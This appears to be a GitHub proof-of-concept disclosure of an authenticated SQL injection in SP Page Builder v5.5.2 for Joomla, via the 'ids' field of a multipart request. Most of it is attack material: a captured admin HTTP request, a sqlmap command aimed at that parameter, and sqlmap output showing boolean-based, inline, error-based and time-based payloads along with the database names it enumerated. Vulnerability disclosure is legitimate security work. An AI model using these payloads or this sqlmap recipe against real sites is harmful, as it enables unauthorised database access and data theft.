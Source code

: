 # SQL injection in SP Page Builder v5.5.2 for Joomla

**CVE Link:** Pending

**SP Page Builder:** https://extensions.joomla.org/extension/sp-page-builder/

## Introduction
An authenticated (administrator) SQL injection vulnerability exists in the SP Page Builder v5.5.2 via the 'ids' parameter in a multipart request in the Pages section for Joomla.

## POC
To exploit this vulnerability go to 'SP Page Builder >> Pages >> Page >> Select >> Bulk Actions >> Publish >> Apply' and save the publication request (req.txt).

![Alt text](sp_page_builder_pages.png)

## HTTP Request
```
POST /administrator/index.php?option=com_sppagebuilder&task=/editor.pages HTTP/1.1
Host: localhost:8080
Content-Length: 334
sec-ch-ua-platform: "Linux"
X-CSRF-Token: 0bb3070a79cefd045ffe263334b5502a
Accept-Language: en-GB,en;q=0.9
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryuBxIMB1sdeoLrZ21
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/administrator/index.php?option=com_sppagebuilder&view=editor&tmpl=component
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; atumSidebarState=open; 1dbcca15c61d69pcd85efbffb29e8e7e=6044bc4a172a990cd71d5f4ac32c4d6f; abe5d7947ca86d62155a0708f02f4q11=c2551dedd7cc06be535c90139c8b2283
Connection: keep-alive

------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="ids"

1
------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="type"

published
------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="_method"

PATCH
------WebKitFormBoundaryuBxIMB1sdeoLrZ21--
```

## Exploit
```
ubuntu@host:~$ python3 sqlmap.py -r ~/req.txt --dbs --dbms=mysql --batch --threads=10 -p 'ids'

---
Parameter: MULTIPART ids ((custom) POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: ------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="ids"

(SELECT (CASE WHEN (8275=8275) THEN 1 ELSE (SELECT 5102 UNION SELECT 6393) END))
------WebKitFormBoundaryuBxIMB1sdeoLrZ21--

    Type: inline query
    Title: Generic inline queries
    Payload: ------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="ids"

(SELECT CONCAT(CONCAT(0x7176786a71,(CASE WHEN (1068=1068) THEN 0x31 ELSE 0x30 END)),0x71707a7171))
------WebKitFormBoundaryuBxIMB1sdeoLrZ21--

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: ------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="ids"

1 AND GTID_SUBSET(CONCAT(0x7176786a71,(SELECT (ELT(4442=4442,1))),0x71707a7171),4442)
------WebKitFormBoundaryuBxIMB1sdeoLrZ21--

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="ids"

1 AND (SELECT 9458 FROM (SELECT(SLEEP(5)))lJsm)
------WebKitFormBoundaryuBxIMB1sdeoLrZ21--
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```